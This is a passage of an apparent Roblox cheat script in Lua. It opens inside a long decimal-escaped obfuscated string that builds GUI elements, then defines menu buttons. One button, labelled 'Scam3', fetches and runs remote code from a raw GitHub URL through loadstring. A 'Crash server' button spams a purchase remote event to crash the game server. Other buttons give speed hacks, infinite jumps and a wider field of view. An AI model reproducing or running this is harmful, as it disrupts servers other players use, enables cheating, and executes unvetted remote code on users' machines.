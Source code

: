 101\108\115\101\10\9\9\114\101\116\117\114\110\32\110\111\116\105\102\121\40\34\83\101\114\118\101\114\104\111\112\34\44\34\67\111\117\108\100\110\39\116\32\102\105\110\100\32\97\32\115\101\114\118\101\114\46\34\41\10\9\101\110\100\10\101\110\100\41\10\10\120\46\78\97\109\101\32\61\32\34\120\34\10\120\46\80\97\114\101\110\116\32\61\32\70\114\97\109\101\10\120\46\66\97\99\107\103\114\111\117\110\100\67\111\108\111\114\51\32\61\32\67\111\108\111\114\51\46\102\114\111\109\82\71\66\40\51\54\44\32\51\54\44\32\51\54\41\10\120\46\66\111\114\100\101\114\67\111\108\111\114\51\32\61\32\67\111\108\111\114\51\46\102\114\111\109\82\71\66\40\51\54\44\32\51\54\44\32\51\54\41\10\120\46\80\111\115\105\116\105\111\110\32\61\32\85\68\105\109\50\46\110\101\119\40\48\46\56\54\52\55\54\56\54\56\52\44\32\48\44\32\48\44\32\48\41\10\120\46\83\105\122\101\32\61\32\85\68\105\109\50\46\110\101\119\40\48\44\32\55\54\44\32\48\44\32\53\48\41\10\120\46\70\111\110\116\32\61\32\69\110\117\109\46\70\111\110\116\46\79\115\119\97\108\100\10\120\46\84\101\120\116\32\61\32\34\88\34\10\120\46\84\101\120\116\67\111\108\111\114\51\32\61\32\67\111\108\111\114\51\46\102\114\111\109\82\71\66\40\50\53\53\44\32\50\53\53\44\32\50\53\53\41\10\120\46\84\101\120\116\83\99\97\108\101\100\32\61\32\116\114\117\101\10\120\46\84\101\120\116\83\105\122\101\32\61\32\49\52\46\48\48\48\10\120\46\84\101\120\116\87\114\97\112\112\101\100\32\61\32\116\114\117\101\10\120\46\68\114\97\103\103\97\98\108\101\32\61\32\116\114\117\101\10\120\46\77\111\117\115\101\66\117\116\116\111\110\49\68\111\119\110\58\99\111\110\110\101\99\116\40\102\117\110\99\116\105\111\110\40\41\10\9\103\97\109\101\46\67\111\114\101\71\117\105\46\83\99\114\101\101\110\71\117\105\58\68\101\115\116\114\111\121\40\41\10\101\110\100\41\10")()
end)

Section:NewButton("Scam3" , "scam2", function()
    loadstring(game:HttpGet(('https://raw.githubusercontent.com/imaboy12321/shhh/main/gaey'),true))()
end)


local Section = Tab:NewSection("spama ou baixe autoclick")
Section:NewButton("Crash server", "Crash server", function()
    local args = {
    [1] = "Jet"
    }

    game:GetService("ReplicatedStorage").RemoteEvents.BuyItemCash:FireServer(unpack(args))
end)

local Section = Tab:NewSection("player")
Section:NewSlider("Speed", "speed", 500, 0, function(s) -- 500 (MaxValue) | 0 (MinValue)
    game.Players.LocalPlayer.Character.Humanoid.WalkSpeed = s
end)

Section:NewButton("Inf Jumps", "Enables Inf Jumps", function()
    local InfiniteJumpEnabled = true
game:GetService("UserInputService").JumpRequest:connect(function()
	if InfiniteJumpEnabled then
		game:GetService"Players".LocalPlayer.Character:FindFirstChildOfClass'Humanoid':ChangeState("Jumping")
	end
end)
end)

Section:NewToggle("Fov", "Changes Fov", function(state)
    if state then
        game.Workspace.CurrentCamera.FieldOfView = 120
    else
        game.Workspace.CurrentCamera.FieldOfView = 80
    end
end)








 
